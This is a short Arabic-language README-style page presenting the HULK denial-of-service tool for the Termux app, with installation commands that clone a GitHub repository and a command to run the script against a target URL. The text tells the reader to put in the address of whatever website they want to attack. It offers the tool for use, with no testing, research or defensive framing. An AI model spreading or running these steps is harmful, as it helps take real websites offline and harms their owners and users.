 # DDos
أداة للهجوم على المواقع

 ▼
أداة HULK لشن هجوم حجب الخدمة Ddos Attack
هذه الأداة أحد أشهر الأدوات التي تقوم بشن هجوم الخدمة والتي تعمل على تطبيق Termux.



#أوامر التثبيت  : 


pkg install git

pkg install python2

git clone https://github.com/MrHack-eg/hulk

cd hulk

chmod +x *

python2 hulk.py URL

قم بتغيير كلمة URL برابط الموقع الذي تريد شن الهجوم عليه .
